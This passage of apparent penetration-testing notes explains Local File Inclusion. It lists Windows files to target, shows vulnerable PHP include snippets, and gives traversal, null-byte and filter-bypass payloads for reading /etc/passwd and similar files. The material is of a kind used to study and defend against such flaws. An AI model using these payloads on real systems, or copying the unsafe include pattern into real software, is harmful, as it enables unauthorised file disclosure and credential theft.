 #### 🪟 Windows

|File|Purpose|
|---|---|
|`C:\Windows\win.ini`|Always exists (used to confirm LFI)|
|`C:\boot.ini`|Boot settings (legacy systems)|
|`C:\Users\Administrator\Desktop\flag.txt`|Sensitive data|
|`C:\xampp\mysql\data\mysql\user.MYD`|MySQL users (XAMPP)|

---

## 🧪 Local File Inclusion (LFI)

### 📌 What Is It?

**LFI** allows the attacker to include files from the server's local file system in the web application’s response or execution.

 With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications
### 🧨 Examples

***No directory specified:***
```php
<?PHP 
	include($_GET["lang"]);
?>
```
Payload can be absolute path (e.g. `/etc/passwd`)

***Specified Directory:***
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```
Payload must use relative path since the directory is specified. (e.g.: `../../../../etc/passwd`)

***Null Byte bypass***
`include("languages/../../../../../etc/passwd%00").".php");` which is equivalent to `include("languages/../../../../../etc/passwd");`

>**Note:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

***Filtered keywords bypass***
Using Null Byte %00 or the current directory trick at the end of filtered keyword `/.`
``` html
?lang=/etc/passwd%00
?lang=/etc/passwd/.
```

***Common Path traversal Bypass***
In case of `../` gets stripped out:
```text
....//....//....//....//....//etc/passwd
```
